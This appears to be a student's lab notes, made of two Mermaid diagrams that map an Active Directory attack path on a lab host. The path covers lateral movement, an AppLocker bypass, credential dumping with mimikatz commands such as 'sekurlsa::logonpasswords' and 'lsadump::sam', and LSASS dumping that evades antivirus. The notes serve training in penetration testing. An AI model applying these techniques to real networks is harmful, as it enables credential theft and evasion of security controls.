


# dcorp-adminsrv — AppLocker Bypass, Credential Dump & GPO Abuse

## Attack Path

```mermaid
flowchart TD
    START(["🔑 dcorp-studentx\nLocal Admin"])

    subgraph access["Phase 1: Gain Access"]
        A1["Derivative Local Admin\nFind-PSRemotingLocalAdminAccess\nFind-WMILocalAdminAccess"]
        A2["PSRemoting / winrs\nEnter-PSSession dcorp-adminsrv\nwinrs -r:dcorp-adminsrv cmd"]
        A3["✅ Shell on dcorp-adminsrv\n(as student user or derivative admin)"]
    end

    subgraph applocker["Phase 2: AppLocker Bypass"]
        AL1["Enumerate AppLocker Policy\nGet-AppLockerPolicy -Effective"]
        AL2["Find writable path in\nC:\\Program Files\\"]
        AL3["Copy tools to\nC:\\Program Files\\bypass\\"]
        AL4["Execute tools from\nallowed path\n(AppLocker bypass)"]
        AL5["OR: Modify GPO\nDisable AppLocker via GPMC\nif DA/GPO modify rights"]
    end

    subgraph dump["Phase 3: Credential Extraction"]
        D1["SafetyKatz\nInvoke-SafetyKatz\nsekurlsa::logonpasswords"]
        D2["Extract: appadmin creds\n(manages dcorp-appsrv)"]
        D3["Extract: websvc creds\n(constrained delegation)"]
        D4["Extract: srvadmin creds\n(vault stored on dcorp-mgmt)"]
        D5["lsadump::sam\nLocal SAM database"]
        D6["vault::cred /patch\nWindows Credential Manager"]
    end

    subgraph asr["Phase 4: ASR Bypass (Optional)"]
        ASR1["ASR Rule blocks LSASS access\nAttack Surface Reduction"]
        ASR2["Use WSManWinRM.exe\nfrom ccmcache exclusion path\nor similar trusted path"]
        ASR3["minidumpdotnet.dll\nCustom API via\nNtReadVirtualMemory directly"]
        ASR4["Flip dump: reverse.exe\nReverse byte order\nto bypass AV scanning"]
    end

    START --> A1 --> A2 --> A3
    A3 --> AL1 --> AL2 --> AL3 --> AL4
    AL1 --> AL5
    A3 --> D1 --> D2 & D3 & D4 & D5 & D6
    D1 --> ASR1 --> ASR2
    ASR1 --> ASR3 --> ASR4

    style START fill:#4CAF50,color:#fff
    style A3 fill:#FF9800,color:#fff
    style D2 fill:#2196F3,color:#fff
    style D3 fill:#2196F3,color:#fff
    style D4 fill:#2196F3,color:#fff
```

## Mindmap

```mermaid
mindmap
  root((dcorp-adminsrv))
    Initial Access
      Derivative Local Admin
        Find-PSRemotingLocalAdminAccess
        Find-WMILocalAdminAccess
      PSRemoting
        Enter-PSSession
        Invoke-Command
      winrs
        winrs -r:dcorp-adminsrv cmd
    AppLocker Bypass
      Enumerate Policy
        Get-AppLockerPolicy -Effective
      Program Files Gap
        C:\Program Files\ writable
        Copy tools there
        Execute from allowed path
      GPO Disable AppLocker
        Modify via GPMC
        Requires GPO modify rights
    ASR Bypass
      WSManWinRM.exe
        ccmcache path exclusion
      minidumpdotnet.dll
        NtReadVirtualMemory
        Custom LSASS dump
      reverse.exe
        Flip dump bytes
        Bypass AV signature
    Credentials Dumped
      appadmin
        Local admin on dcorp-appsrv
      websvc
        Constrained delegation
      srvadmin
        Vault on dcorp-mgmt
      SAM database
        lsadump::sam
```
